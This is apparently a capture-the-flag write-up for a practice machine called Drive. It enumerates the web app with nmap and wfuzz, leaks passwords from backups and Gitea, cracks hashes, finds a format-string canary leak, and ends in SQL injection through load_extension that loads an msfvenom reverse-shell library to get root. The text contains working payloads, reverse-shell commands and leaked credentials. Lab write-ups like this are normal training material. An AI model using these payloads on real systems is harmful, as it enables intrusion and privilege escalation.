


# Drive

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.51.107           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-18 01:24 +08
Nmap scan report for 10.129.51.107
Host is up (0.0072s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
3000/tcp filtered ppp
```

Did a detailed scan as well:

```
$ nmap -p 80,3000 -sC -sV --min-rate 3000 10.129.51.107 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-18 01:25 +08
Nmap scan report for 10.129.51.107
Host is up (0.0071s latency).

PORT     STATE    SERVICE VERSION
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://drive.htb/
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added that domain to the `/etc/hosts` file. 

### Web Enumeration --> User Password

The website advertised an online file management system called 'Doodle Drive'. 


When I registered a new user and logged in, there was a dashboard and upload file functions available:


Viewing the dashboard shows a file left by the `admin` user:



When the file is viewed, the URL changes and there's a hint to use the 'Contact Us' feature.


The first thing I noticed was that this particular file used an ID of 100. Perhaps there are other files for other users on the machine with different IDs. To test this, I used `wfuzz` with the various directories. 

```bash
$ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc=404 -u http://drive.htb/100/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://drive.htb/100/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000629:   302        0 L      0 W        0 Ch        "updates"                   
000000794:   302        0 L      0 W        0 Ch        "update"                    
000001321:   302        0 L      0 W        0 Ch        "blocks"                    
000002152:   301        0 L      0 W        0 Ch        "block"                     
000002952:   302        0 L      0 W        0 Ch        "updated"
```

Out of all of these, only `block` and `update` worked. `block` redirected me back to the same page.

I noticed that there were quite a few directories for this group. Next, I wanted to check what other numbers were present. I first generated a word list using a simple `for` loop, then fed it to `wfuzz`. Found that using `/FUZZ/block` worked in detecting a few new files:

```bash
$ for i in {1..999}; do echo $i; done > nums.txt
$ wfuzz -c -w nums.txt --hc=404 -H 'Cookie: csrftoken=per3SQKzb4mprJsnjOqoAp1JGsYpFP5A; sessionid=6388mz6xae83iiy85qtskl4hz2hxbje6' -u http://drive.htb/FUZZ/block --follow
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://drive.htb/FUZZ/block
Total requests: 999

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000079:   200        174 L    424 W      5444 Ch     "79"                        
000000100:   200        171 L    376 W      5083 Ch     "100"                       
000000101:   200        176 L    416 W      5484 Ch     "101"                       
000000099:   200        170 L    372 W      5064 Ch     "99"                        
000000098:   200        170 L    365 W      5022 Ch     "98"
```

I checked 79 first, and found another file:



Using this password, I could `ssh` in as `martin`:


## Privilege Escalation

## Gitea --> DB --> Tom Password

Now I can start enumerating the machine. Firstly, there are some files within the `/var/www/` directory worth taking a look at:

```
martin@drive:/var/www$ ls -la
total 20
drwxr-xr-x  5 root     root     4096 Sep 15 13:34 .
drwxr-xr-x 13 root     root     4096 Sep  6 12:56 ..
drwxr-xr-x  2 www-data www-data 4096 Sep  1 18:23 backups
drwxrwx---  8 www-data www-data 4096 Oct 17 12:20 DoodleGrive
drwxr-xr-x  2 root     root     4096 Jan  7  2023 html

martin@drive:/var/www/backups$ ls -la
total 3740
drwxr-xr-x 2 www-data www-data    4096 Sep  1 18:23 .
drwxr-xr-x 5 root     root        4096 Sep 15 13:34 ..
-rw-r--r-- 1 www-data www-data   13018 Sep  1 20:00 1_Dec_db_backup.sqlite3.7z
-rw-r--r-- 1 www-data www-data   12226 Sep  1 20:00 1_Nov_db_backup.sqlite3.7z
-rw-r--r-- 1 www-data www-data   12722 Sep  1 20:00 1_Oct_db_backup.sqlite3.7z
-rw-r--r-- 1 www-data www-data   12770 Sep  1 20:00 1_Sep_db_backup.sqlite3.7z
-rwxr-xr-x 1 root     root     3760128 Dec 26  2022 db.sqlite3
```

There are also a few other users on this machine:

```
martin@drive:~$ ls /home
cris  git  martin  tom
```

There are also some local ports listening:

```
martin@drive:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::3000                 :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*  
```

Earlier we saw that port 3000 was filtered, so I used `chisel` to forward that first. 

```bash
# as martin
./chisel client 10.10.14.17:5555 R:3000:127.0.0.1:3000

# as kali
chisel server -p 5555 --reverse
```

Visiting port 3000 reveals a Gitea instance:


There are some users, and `martin` is part of them again:


I could login with the same password of `Xk4@KjyrYv8t194L!` from earlier. Afterwards, I was able to view the repositories from the other user `cris`. 


The `db_backup.sh` file was the most interesting, and it contained a password:

```bash
#!/bin/bash
DB=$1
date_str=$(date +'%d_%b')
7z a -p'H@ckThisP@ssW0rDIfY0uC@n:)' /var/www/backups/${date_str}_db_backup.sqlite3.7z db.sqlite3
cd /var/www/backups/
ls -l --sort=t *.7z > backups_num.tmp
backups_num=$(cat backups_num.tmp | wc -l)
if [[ $backups_num -gt 10 ]]; then
      #backups is more than 10... deleting to oldest backup
      rm $(ls  *.7z --sort=t --color=never | tail -1)
      #oldest backup deleted successfully!
fi
rm backups_num.tmp
```

Seems that I have to grab all the backups and unzip them to find a password of some sorts. I transferred all the backups to my machine using `scp`, and extracted them using `7z`. Afterwards, I used `sqlite3` to enumerate the stuff within:

```
sqlite> .tables
accounts_customuser                   auth_permission                     
accounts_customuser_groups            django_admin_log                    
accounts_customuser_user_permissions  django_content_type                 
accounts_g                            django_migrations                   
accounts_g_users                      django_session                      
auth_group                            myApp_file                          
auth_group_permissions                myApp_file_groups
```

Seems that there are some users and what not. Within the `accounts_customuser` table, there are some hashes:

```
sqlite> select * from accounts_customuser;
16|pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=|2022-12-26 06:21:34.294890|1|admin|||admin@drive.htb|1|1|2022-12-08 14:59:02.802351
21|pbkdf2_sha256$390000$npEvp7CFtZzEEVp9lqDJOO$So15//tmwvM9lEtQshaDv+mFMESNQKIKJ8vj/dP4WIo=|2022-12-24 22:39:42.847497|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04.637591
22|pbkdf2_sha256$390000$GRpDkOskh4irD53lwQmfAY$klDWUZ9G6k4KK4VJUdXqlHrSaWlRLOqxEvipIpI5NDM=|2022-12-24 12:55:10.152415|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02.230289
23|pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=|2022-12-26 06:20:23.299662|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|pbkdf2_sha256$390000$TBrOKpDIumk7FP0m0FosWa$t2wHR09YbXbB0pKzIVIn9Y3jlI3pzH0/jjXK0RDcP6U=|2022-12-24 16:51:53.717055|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15.072407
```

The weird thing is that all the different archive files have different hashes in the same table. 

```
sqlite> select * from accounts_customuser;
21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
23|sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93|2022-12-26 06:03:57.371771|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372
```


I first tried to crack the `sha1` hashes. A but of googling reveals that this uses `hashcat -m 124`, so I could crack some of them:

```
$ cat sha_hashes | awk -F '|' {'print $2'} > db
$ hashcat -m 124 db /usr/share/wordlists/rockyou.txt
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:johniscool
sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93:john boy
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
```

Using `johnmayer7` allows us to `su` to `tom`.


### Format String Vulnerability --> Stack Canary (unused)

The next part of this machine was glaringly obvious.


Some reverse engineering or pwn challenge is up next. First, I transferred this binary back to my machine via `nc`.

```bash
# as tom
nc -w 3 10.10.14.17 4444 < doodleGrive-cli

# as kali
nc -l -p 4444 > doodleGrive-cli
```

I ran a `checksec` first to see what protections this thing had:

```
gdb-peda$ checksec
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.

CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

There's a stack canary, but oddly there's no ASLR enabled. Testing it with a huge input shows an error:

```
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Enter password for AAAAAAAAAAAAAAA:
Invalid username or password.
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

Also, the binary prints out whatever `username` we give it, and I tested for format string vulnerabilities that would allow me to read the stack canary.

```
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
tom
Enter password for tom:
^C

tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
%x
Enter password for 10:
```

It worked! Using this, I can slowly read each byte of data.



The stack canary for Linux machines always ends with a null byte, so I first found out where was it along the stack. After some testing, it appears using `%15$p` prints out the stack canary consistently.

```
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
%15$p
Enter password for 0x924e6ebdabc8dd00:
```

### Ghidra --> SQL Injection

I took a pause here and used `ghidra` to disassemble the `main` function.


Firstly, I found the right username and password. The `main_menu()` function contains other options to be used:


Out of all of them, option 5 was the most interesting as it took user input and passed it to a command:


It might be possible to do SQL Injection from here, which makes sense as an intended method since the creator literally gave us the correct username and password to use, so it's likely that pwn is an unintended method.

I did some initial SQL Injection tests, and confirmed that it was possible due to syntax errors that were happening.


Now, I just needed to figure out what to do with the injection. There was one method on PayloadAllTheThings that showed using `load_extension` would execute a `.dll` file for Windows or `.so` file for Linux.


Now by default, this option is disabled, but for this machine it was enabled:

```
tom@drive:~$ sqlite3
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> SELECT sqlite_compileoption_used('ENABLE_LOAD_EXTENSION');
1
```

This means that we should be able to load whatever `.so` files we want. Using this, we can generate a `.so` reverse shell using `msfvenom`:

```
$ msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f elf-so -o a.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: a.so
```

Then, download this to the machine in the same directory as the binary. After some testing with the syntax, I was able to make the binary accept an argument from me:


Spaces and `+` characters cannot be used in the above, so I used `char` to type out the name of the `.so` file. The `load_extension` function needs to take in `./a` as the input:

```
doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension(char(46,47,97))+"
Activating account for user '"+load_extension(char(46,47,97))+"'..
```

This would spawn a reverse shell as `root`:


Rooted!